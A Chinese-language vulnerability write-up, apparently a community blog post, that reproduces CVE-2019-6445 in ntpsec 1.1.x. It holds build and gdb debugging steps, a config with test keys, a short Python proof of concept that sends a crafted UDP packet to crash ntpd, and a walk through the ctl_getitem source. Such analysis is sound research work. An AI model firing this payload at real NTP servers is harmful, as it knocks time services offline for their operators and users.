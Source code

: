 ```yaml
---
layout: post
title: CVE-2019-6445分析复现
excerpt: "先知社区投稿"
categories: [先知社区投稿]
comments: true
---
```




受影响版本:ntpsec 1.1.0, 1.1.1, 1.1.2

------

#### 编译 安装 配置

配置configure,设置成允许调试

```
./waf configure --enable-debug --enable-debug-gdb
```

编译

```
./waf build
```

编译后的文件在

```
./build/main/ntpd/ntpd
```

配置文件ntp.conf

```
logfile /tmp/ntp.log
restrict 127.0.0.1
keys /home/magnus/resources/keys
trustedkey 1
controlkey 1
requestkey 1
```

/home/magnus/resources/keys文件

```
1 M gurka
2 M agurk
```

#### 开始调试

使用gdb启动服务

```
gdb --args ./build/main/ntpd/ntpd -n -c ~/resources/ntp.conf
```

设置断点,并运行

```
b ctl_getitem
r
```

端口已正常,程序已经运行
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426182655-73be42c4-87a8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426182655-73be42c4-87a8-1.png)

在另一个bash窗口中执行poc

```
#!/usr/bin/env python
# note this PoC exploit uses keyid 1, password: gurka

import sys 
import socket

buf = ("\x16\x03\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x6c\x65\x61\x70" +
       "\x00\x00\x00\x01\x5c\xb7\x3c\xdc\x9f\x5c\x1e\x6a\xc5\x9b\xdf\xf5" +
       "\x56\xc8\x07\xd4")

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(buf, ('127.0.0.1', 123))
```

再次查看ntp服务程序,发现已断开,根据bt给出的数据,程序停在了ntp_control.c:2930的位置
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426182921-cad568da-87a8-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426182921-cad568da-87a8-1.png)
更进一步的讲,程序停止在

```
0x555555575c6c <write_variables+482>    cmp    BYTE PTR [rdi],0x0
```

结合源码进程查看
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426192047-fa1c9396-87af-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426192047-fa1c9396-87af-1.png)
0x555555575c6c这一步的操作是rdi指向的值与0进行比较,然后再做之后的操作
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426191924-c8720a9c-87af-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426191924-c8720a9c-87af-1.png)
而此时rdi为0x0,妥妥的空指针异常

再用gdb查看下valuep指针

```
gdb-peda$ p valuep
$1 = 0x0
```

看来是valuep指针出了问题,往上回溯,在2911处打下断点,发现在运行完ctl_getitem函数后,valuep指针为0x0
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426183055-02fecb48-87a9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426183055-02fecb48-87a9-1.png)

#### 问题函数ctl_getitem的源码分析

##### 函数第一部分

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426190101-3780acca-87ad-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426190101-3780acca-87ad-1.png)
由代码可知,程序先将tp设置为空,reqpt赋值给cp,然后在cp中搜索'=',我们在gdb中调试
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426190217-64c2df46-87ad-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426190217-64c2df46-87ad-1.png)
显而易见,cp中不会有'=',也不会有',',没有满足任何一个if语句,运行完这段代码后tp仍为0x0

##### 函数第二部分

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426190324-8c84ecea-87ad-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426190324-8c84ecea-87ad-1.png)
此时将指针data(即valuep指针)置零,tp为空的条件让`*data = buf`不会被执行,运行完这段代码后data(即valuep指针)为0x0

##### 最后一段与*data有关的代码

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426190427-b2322412-87ad-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426190427-b2322412-87ad-1.png)
依然没有为*data赋值,之后再也没有设置data的地方了

之后就是跳出函数,运行到2930处,为valuep赋值的时候出现空指针异常,导致DoS
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200426192454-8d3ad994-87b0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200426192454-8d3ad994-87b0-1.png)

至此分析全部完成

#### 参考

https://dumpco.re/bugs/ntpsec-authed-npe

#### 源码及poc

https://github.com/snappyJack/CVE-2019-8936/

